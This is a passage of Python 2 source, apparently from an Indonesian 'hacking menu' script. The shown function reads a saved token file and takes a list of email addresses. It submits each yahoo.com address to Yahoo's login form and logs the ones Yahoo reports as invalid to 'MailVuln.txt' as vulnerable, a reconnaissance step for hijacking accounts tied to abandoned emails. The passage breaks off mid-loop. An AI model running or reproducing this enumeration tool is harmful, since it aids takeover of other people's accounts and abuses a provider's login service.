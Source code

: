     print '\n\x1b[1;91m[+] \x1b[1;97mSelesai'
    print '\x1b[1;91m[+] \x1b[1;97mTersimpan \x1b[1;91m:\x1b[1;97m MailVuln.txt'
    save.close()
    raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
    menu_yahoo()


def yahoolist():
    os.system('reset')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\x1b[1;91m[!] Token tidak ditemukan'
        os.system('rm -rf login.txt')
        time.sleep(1)
        login()
    else:
        os.system('reset')
        print logo
        print 40 * '\x1b[1;97m\xe2\x95\x90'
        files = raw_input('\x1b[1;91m[+] \x1b[1;92mFile \x1b[1;91m: \x1b[1;97m')
        try:
            total = open(files, 'r')
            mail = total.readlines()
        except IOError:
            print '\x1b[1;91m[!] File tidak ada'
            raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
            menu_yahoo()

    mpsh = []
    jml = 0
    jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...')
    save = open('MailVuln.txt', 'w')
    print 40 * '\x1b[1;97m\xe2\x95\x90'
    print '\x1b[1;91m[?] \x1b[1;97mStatus \x1b[1;91m:  \x1b[1;97mRed[\x1b[1;92m' + vulnot + '\x1b[1;97m]  Green[\x1b[1;92m' + vuln + '\x1b[1;97m]'
    print
    mail = open(files, 'r').readlines()
    for pw in mail:
        mail = pw.replace('\n', '')
        jml += 1
        mpsh.append(jml)
        yahoo = re.compile('@.*')
        otw = yahoo.search(mail).group()
        if 'yahoo.com' in otw:
            br.open('https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com')
            br._factory.is_html = True
            br.select_form(nr=0)
            br['username'] = mail
            klik = br.submit().read()
            jok = re.compile('"messages.ERROR_INVALID_USERNAME">.*')
            try:
                pek = jok.search(klik).group()
            except:
                print '\x1b[1;91m ' + mail
                continue
